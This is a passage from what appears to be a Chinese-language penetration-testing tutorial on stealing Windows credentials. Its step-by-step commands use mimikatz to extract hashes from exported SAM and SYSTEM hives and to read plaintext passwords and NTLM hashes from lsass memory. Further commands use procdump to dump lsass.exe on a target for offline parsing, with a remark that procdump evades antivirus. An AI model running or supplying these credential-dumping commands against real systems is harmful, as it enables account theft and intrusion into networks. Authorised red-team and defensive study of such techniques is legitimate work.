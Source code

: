 然后将导出的文件下载到攻击机（本地），以管理员或`SYSTEM`权限运行mimikatz

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751081087321-e264407c-580d-4a5b-b90d-a1c89ac92941.png)

获取hash

```bash
lsadump::sam /sam:E:\sam.hiv /system:E:\system.hiv
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751081547119-a5c30afb-829c-4cb1-987c-01d49a15ddc2.png)

# 通过Lsass的内存获取密码
## 目标系统中运行mimikatz获取明文密码
该方法<font style="color:rgb(102, 102, 102);">从lsass.exe的内存中提权hash</font>

```bash
privilege::debug
log			#启用日志，会在运行目录生成mimikatz.log文件
sekurlsa::logonpasswords			#通过各种方法获取明文密码
```

关于`sekurlsa::logonpasswords`获取密码发方式有：

```bash
sekurlsa::msv	#获取 HASH (LM,NTLM) 
sekurlsa::wdigest #通过可逆的方式去内存中读取明文密码
sekurlsa::Kerberos #假如域管理员正好在登陆了我们的电脑，我们可以通过这个命令来获取域管理员的明文密码
sekurlsa::tspkg #通过tspkg读取明文密码
sekurlsa::livessp #通过livessp 读取明文密码
sekurlsa::ssp #通过ssp 读取明文密码
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751085968120-32a83e0d-0d35-4203-a4d6-c797f1a437d0.png)

## procdump结合mimikatz离线获取明文密码
下载：[https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump)

procdump是微软的工具，一般不会被杀软杀掉，但mimikatz会

将对应版本的procdump上传到目标系统并执行以下命令生成一个dmp文件（需要管理员权限）

```bash
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751087122596-7d6c6254-58d5-498e-8fd1-9f8ecc11e871.png)

下载生成的lsass.dmp文件到本地，使用mimikatz解析

```bash
mimikatz.exe		#启动mimikatz
sekurlsa::minidump E:\lsass.dmp
sekurlsa::logonpasswords
```
